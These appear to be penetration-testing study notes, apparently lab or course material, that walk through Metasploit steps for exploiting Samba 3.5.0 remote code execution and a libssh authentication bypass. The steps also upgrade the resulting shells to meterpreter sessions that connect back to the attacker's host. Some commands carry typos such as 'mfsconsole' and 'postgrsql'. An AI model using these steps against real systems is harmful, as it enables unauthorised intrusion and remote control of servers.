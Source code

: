       
    

  

> `crtl + z` ⇒ ==_to put session on background_==

  

- **_==Exploiting Samba==_**

> ==_it’s a linux version of SMB , on port 445 , ran on top of NetBios using port 139_==

> Samba V3.5.0 is vulnerable to rce

- ==Exploit samba==
    
    - `nmap -sS -sV -O <TARGET IP>` ⇒ to do some port scan to identify the samba server
    
    > `u can do that by using mfsconsole` && `db_nmap`
    
    - `service postgrsql start` && `mfsconsole` && `workspace -a ftp`
    - `search type:exploit name:samba` && `use exploit/linux/samba/is_known_pipename`
    - `check` ⇒ to check if this version of samba vuln or not
    - `set rhost <target- ip>` && `run`
    
    💡
    
    now we have a shell session on target if we want to upgrade that to meterpreter session
    
    - `crtl + z` ⇒ to put session on background && `use post/multi/manage/shell_to_meterpreter`
    - `set lhost <our ip >` && `set lport 1234` && `set session <number of the session >`
    
      
    

  

- **_==Exploiting A Vulnerable SSH Server==_**

> SSH (secure shell ) is a remote administrater protocole that offers encryption and is the successor to telnet

> on port 22 , used to remote access to servers and system

> libssh multiplatform c library implementing the SSHV2 protocole on client and server side , libssh V0.6.0-0.8.0 is vuln to authentication bypass .

- ==Exploit SSH==
    
    - `nmap -sS -sV -O <TARGET IP>` ⇒ to do some port scan to identify the SSH server
    
    > `u can do that by using mfsconsole` && `db_nmap`
    
    - `service postgrsql start` && `mfsconsole` && `workspace -a libSSH`
    - `search libssh_auth_bypass` && `use auxiliary/scanner/ssh/libssh_auth_bypass`
    - `set rhost <target ip>` && `set spawn_pty true` && `run`
    
    > used to spawn a TTY session on the target system
    
    💡
    
    now we have a shell session on target if we want to upgrade that to meterpreter session
    
    - `crtl + z` ⇒ to put session on background && `use post/multi/manage/shell_to_meterpreter`
    - `set lhost <our ip >` && `set lport 1234` && `set session <number of the session >`
    
